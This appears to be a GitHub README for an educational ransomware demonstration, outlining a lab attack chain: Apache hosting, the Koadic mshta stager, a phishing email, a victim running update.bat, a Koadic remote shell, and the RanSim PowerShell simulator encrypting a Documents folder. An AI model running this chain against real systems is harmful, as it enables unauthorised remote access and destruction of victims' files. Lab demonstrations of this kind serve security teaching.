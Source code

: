 # Ransomware-demo
The repo is about demonstrating how the ransomware works in the system for education purpose.

## Contents
- [Legal Disclaimer](#legal-disclaimer)
- [Environment](#environment)
- [Getting Started](#getting-started)
- [Credits](#credits)

## Legal Disclaimer

This project must not be used for illegal purposes or for hacking into system where you do not have permission, it is strictly for educational purposes. Performing any hack attempts or tests without written permission from the owner of the computer system is illegal. Badware project must not be used for illegal purposes. It is strictly for educational purposes.

## Environment
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/d91e0bd5-8174-4f4d-8423-c3228b9b0325)

## Getting Started


1. Apache2.service
- Host a temporary HTTP server 
- Upload and Download of file to the server
  
command

- `sudo systemctl start apahce2.service`
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/df87e25f-65a7-44e1-9310-ff78b1d367c3)

2. Koadic
- a Windows post-exploitation rootkit
- Learn how to use this item to remote access the Windows machine
- Deploy powershell commands secretly

command

- `koadic`

- `use stager/js/mshta && info`


![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/c18c125b-79c4-4935-9ba9-49e6eb6d96b1)

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/f08e7c8a-28e0-4597-a1ea-3d437344e381)


3. Phishing email demo

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/91e464fa-03d3-4d31-ad6a-7524005619b1)


4. Download the update.bat and execute it in the victim machine 
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/1ec8b0ab-1f97-4176-847e-367c77819c30)


5. Gain the remote access of the Windows in Kodiac

command

- `zombies`

- `cmdshell 0`

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/f7593284-443d-4a39-a0ba-0b4548e2e2ea)

6. Execute the RanSim malware program

command

- `powershell.exe -Command ".\RanSim.ps1 -mode encrypt -TargetPath C:\Users\Administrator\Documents`
![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/718e74ad-536a-4bd7-b91a-7deb42f33f5c)


7. Result: 

![image](https://github.com/leonlamsc/Ransomware-demo/assets/140391766/8a8177b6-0a59-49db-b5e9-a1544b5520ee)

For decryption:

command

- `powershell.exe -Command ".\RanSim.ps1 -mode decrypt -TargetPath C:\Users\Administrator\Documents`

## Credits
- [RanSim](https://github.com/lawndoc/RanSim) 

- [Loi Liang Yeung Youtube channel](https://www.youtube.com/watch?v=UImsfTpYjvU)
